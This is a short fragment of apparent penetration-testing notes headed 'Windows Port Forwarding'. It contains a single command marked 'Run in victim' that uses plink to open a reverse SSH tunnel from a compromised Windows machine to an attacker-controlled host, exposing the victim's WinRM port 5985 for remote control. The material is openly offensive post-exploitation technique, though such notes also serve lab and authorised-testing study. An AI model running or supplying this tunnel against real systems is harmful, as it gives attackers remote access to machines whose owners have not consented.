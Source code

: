 ### Windows Port Forwarding

Run in victim (5985 WinRM):
```shell
plink -l $LOCAL_USER -pw $LOCAL_PASSWORD $LOCAL_IP -R 5985:127.0.0.1:5985 -P 221
```

